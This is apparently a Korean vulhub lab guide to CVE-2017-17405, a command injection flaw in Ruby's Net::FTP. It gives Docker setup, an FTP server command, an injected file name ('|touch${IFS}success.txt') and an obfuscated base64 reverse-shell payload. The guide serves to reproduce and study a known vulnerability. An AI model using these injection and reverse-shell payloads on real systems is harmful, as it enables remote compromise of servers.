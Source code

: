# Ruby Net::FTP 모듈 명령 주입 취약점（CVE-2017-17405）

Ruby Net::FRP 모듈은 FTP 클라이언트를 제공하는데, 파일 업로드 및 다운로드 과정에서 로컬 파일을 열 때 'open' 함수를 사용합니다. 그런데, Ruby에서 'open' 함수는 파일을 열 때 시스템 명령을 사용하며, 셸 문자열을 필터링하지 않아 사용자가 파일 이름을 제어할 수 있는 경우 임의의 명령을 주입할 수 있게 됩니다.

## 환경설정

취약점 환경 구축 컴파일 및 실행：

```
docker compose build
docker compose up -d
```

구축 완료된 환경을 시작한 후, 'http://your-ip:8080/'을 방문하면 HTTP 서비스를 볼 수 있습니다. 이 HTTP 서비스의 역할은 'http://your-ip:8080/download?uri=ftp://example.com:2121/&file=vulhub.txt'에 접속하면 example.com:2121 FTP 서버에서 vulhub.txt 파일을 로컬로 다운로드하고 해당 내용을 사용자에게 반환하는 것입니다.

## 취약점 재현

이것은 FTP 클라이언트 취약점이기 때문에 먼저 접근 가능한 서버를 실행해야 합니다. Python을 사용하여 다음과 같이 할 수 있습니다:

```
# pyftpdlib 설치
pip install pyftpdlib

# 현재 디렉토리에서 FTP 서버를 시작하고, 기본적으로 '0.0.0.0:2121' 포트에서 수신 대기합니다.
python3 -m pyftpdlib -p 2121 -i 0.0.0.0
```

그런 다음 취약점을 활용할 수 있습니다. '|touch${IFS}success.txt' 명령을 삽입하십시오. 공백은 ${IFS}로 대체됩니다(이유는 언급되지 않음). 다음과 같은 데이터 패킷을 보내면 됩니다(이때 'uri'로 지정한 FTP 서버는 Python으로 실행한 간단한 FTP 서버이며 파일을 배치할 필요가 없습니다):

![](1.png)

다음으로 Docker 컨테이너에 들어가면, 'success.txt' 파일이 이미 생성되어 있는 것을 확인할 수 있습니다.:

![](2.png)

반사 쉘(reverse shell) 실행 명령어 '|bash${IFS}-c${IFS}'{echo,YmFzaCAtaSA...}|{base64,-d}|{bash,-i}'"를 실행하면 성공적으로 반사 쉘을 활성화시킬 수 있습니다.

![](3.png)
